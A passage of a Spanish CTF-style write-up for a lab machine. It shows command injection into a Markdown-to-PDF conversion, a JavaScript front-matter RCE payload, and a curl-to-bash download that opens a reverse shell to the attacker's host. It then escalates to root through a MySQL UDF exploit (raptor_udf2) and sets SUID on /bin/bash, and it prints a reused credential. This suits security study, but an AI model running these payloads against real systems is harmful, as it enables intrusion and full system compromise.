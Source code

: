 # Parte 5: obteniendo acceso
 
El codigo dice que: ```command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"```  
Es decir dentro de $'' mete el contenido de la nota: ```md_to_pdf $'Mariscos Recio'```   

El comando con inyeccion seria tal que: ```node md-to-pdf.js $';whoami'```  
Teniendo que escapar del contexto de los ' -> ```node md-to-pdf.js $'';whoami; echo''```  
Lo mismo con ping -> ```'; ping -c 1 10.10.14.15 ;echo' ``` Recibiendo:  
```console
└─$ sudo tcpdump -i tun0 icmp -n
10:37:37.601822 IP 10.10.11.160 > 10.10.14.15: ICMP echo request, id 2, seq 1, length 64
10:37:37.601854 IP 10.10.14.15 > 10.10.11.160: ICMP echo reply, id 2, seq 1, length 64
```
Tambien buscando la vuln por google te sale como poner el payload:  
```console
└─$ cat note.md
---js\n((require("child_process")).execSync("ping -c 1 10.10.14.15"))\n---RCE
```
Obtenemos el mismo resultado. Intento varias maneras de hacer una reverse shell, pero todas fallan, asi qie la hago indirecta con curl.  
Shell:  
- index.html  
```bash
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```
- note.md:  
```---js\n((require("child_process")).execSync("curl http://10.10.14.15:8000 | bash"))\n---RCE```

Con netcat en escucha por el puerto 443 tenemos la shell.  
He importado mi [script de enumeracion](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh):  
- Uusarios -> svc (nosotros) y root  
- /tmp/puppeteer_dev_chrome_profile-mPQ3N6??  
- Tiene abierto el mysql (3306) y por el puerto 39617 el node (para correr el md-to-js)  
- Mysql corre por root -> critico  

------------------------------

# Parte 6: Escalando a root

En la web [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library) hablan de esta situacion (root en mysql):  
Se puede entrar ya que antes conseguumos las creds root:Nildogg36  
La explotación consiste en copiar este [código](https://www.exploit-db.com/exploits/1518), y compilarlo en el sistema vicitma.   
```console
svc@noter:/tmp$ curl -O http://10.10.14.15:8000/raptor_udf2.c
svc@noter:/tmp$ gcc -g -c raptor_udf2.c
svc@noter:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
svc@noter:/tmp$ mysql -u root -p
MariaDB [mysql]> create table foo(line blob);
MariaDB [mysql]> insert into foo values(load_file('/tmp/raptor_udf2.so'));
MariaDB [mysql]> show variables like '%plugin%';
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
MariaDB [mysql]> select do_system('chmod u+s /bin/bash');
```
